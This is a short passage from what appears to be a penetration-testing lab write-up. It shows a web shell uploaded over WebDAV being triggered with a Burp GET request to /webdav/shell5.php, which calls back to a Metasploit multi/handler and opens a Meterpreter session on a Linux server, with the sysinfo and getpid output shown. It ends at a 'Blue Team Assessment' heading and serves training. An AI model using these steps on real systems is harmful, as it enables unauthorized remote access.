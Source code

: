 ![upload_complete](images/Project_Images/Shells/upload_complete.png)

	# msfconsole
	> use exploit/multi/handler
	> set lhost, lport 
	> run 
	
	# Change PUT back to GET in burp
	> GET /webdav/shell5.php HTTP/1.1 
	
	>Meterpreter
	>sysinfo 
	Computer : Server1
	OS       : Linux server1 4.15.0-108-generic 
	
	> getpid
	Current pid: 1365
	

-------------

## Blue Team Assessment
